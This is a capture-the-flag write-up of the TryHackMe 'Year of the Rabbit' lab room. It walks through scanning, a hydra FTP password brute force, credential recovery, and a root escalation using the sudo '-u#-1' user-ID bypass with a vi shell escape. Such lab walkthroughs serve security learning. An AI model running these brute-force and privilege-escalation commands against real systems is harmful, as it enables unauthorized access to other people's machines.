 ```yaml
---
title: "TryHackMe - Year of the Rabbit"
author: Nasrallah
description: ""
date: 2022-09-07 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, hydra, bruteforce, sudo, cve]
img_path: /assets/img/tryhackme/yearoftherabbit
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Year of the Rabbit](https://tryhackme.com/room/yearoftherabbit) from [TryHackMe](https://tryhackme.com). The target is running a web server where we find an image that contains a list of passwords that we use to brute force the ftp server. After finding the right password we login to find a file that has some weird text, we decode that to get ssh credentials. Once we're in the target machine we find a secret file with on of the user's password. After switching to that user we exploit a sudo cve to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.243.82
Host is up (0.086s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 3 open ports, 21 running vsftp, 22 running OpenSSH, and 80 running Apache web server.

## Web

Navigate to the web page.

![](1.png)

It's the default page for apache.

### Gobuster

Let's run a directory scan.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.243.82/  | tee scans/gobuster                                                 130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.243.82/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/01 04:54:20 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.243.82/assets/]
/index.html           (Status: 200) [Size: 7853]                                 
/server-status        (Status: 403) [Size: 277]                                  
                                                                                 
===============================================================

```

We found **/assets/** directory, let's look at it.

![](2.png)

We got a rick roll video and a css file. Let's check the **style.css** file.

![](3.png)

We found a secret page, but when we browse to it, it redirects us to rick roll youtube video.

Next i used curl to request the page and got this.

![](4.png)

Got the real hidden directory.

![](5.png)

There is an image there, we can download it to our machine with `wget http://10.10.243.82/WExYY2Cv-qU/Hot_Babe.png`

If we run `strings` with the image, we find the following.

![](6.png)

We a username for ftp and a list of passwords.

We either copy the list manually or use the following command like i did.

```bash
strings Hot_Babe.png | tail -n 82 > pass.txt
```

![](7.png)


# **Foothold**

## Hydra

Now let's use `hydra` to brute force the ftp server.

```bash
hydra -l ftpuser -P pass.txt 10.10.243.82 ftp
```

![](8.png)

## FTP

Let's login to the ftp server.

![](9.png)

Found some a text file and downloaded it with `get {filename}`. Let's see what it has.

![](10.png)

From my experience, i know this is `brainfuck` programming language. Let's go to [dcode](https://www.dcode.fr/brainfuck-language) and execute this script.

![](11.png)

Great! We got hte credentials. Let's login with ssh.

![](12.png)

# **Privilege Escalation**

When we logged in, we got the following message.

```
"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
```

There is a secret place, i used the command `locate s3cr3t` and got this.

![](13.png)

We found the secret place. Let's print the secret file.

![](14.png)

Got the password for that user. Let's switch to `Gwendoline`.

![](15.png)

Let's check our privileges with `sudo -l`.

![](16.png)

We can execute `vi` but not as root. Let's check `sudo`'s version.

```terminal
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

The version of sudo is 1.8.10p3, and if we search for any exploits in this version we find [this](https://www.exploit-db.com/exploits/47502).

![](18.png)

We see if we add `-u#-1` to our sudo command we can execute vi as root, so let's go check [GTFObins](https://gtfobins.github.io/gtfobins/vi/#shell).

![](17.png)

We're going to use the following commands to get a root shell.

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

:set shell=/bin/sh

:shell
```

![](19.png)

Got the root shell.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
